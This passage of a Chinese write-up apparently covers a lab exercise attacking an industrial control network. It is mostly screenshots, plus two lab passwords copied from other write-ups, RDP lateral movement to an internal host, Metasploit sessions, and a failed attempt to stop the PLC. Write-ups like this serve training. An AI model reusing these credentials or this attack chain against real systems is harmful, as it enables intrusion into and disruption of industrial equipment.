

功能用户管理，找到下图：



密码是星号，被隐藏了

#### IDA反编译获取密码

卡成PPT了，打不下去了


借鉴一下其它师傅的wp
```
tegratnluv
Vu1Nt@rG3t9Gg
```

## 横向移动-Target4

通过上文获取到的密码3389上线192.168.95.100



## 合照-MSF上线截图

除了下位机，其余全部上线。



## 最终目的-打停下位机




抖个机灵，主要是ISFpython脚本跑不起来，毁灭吧我累了
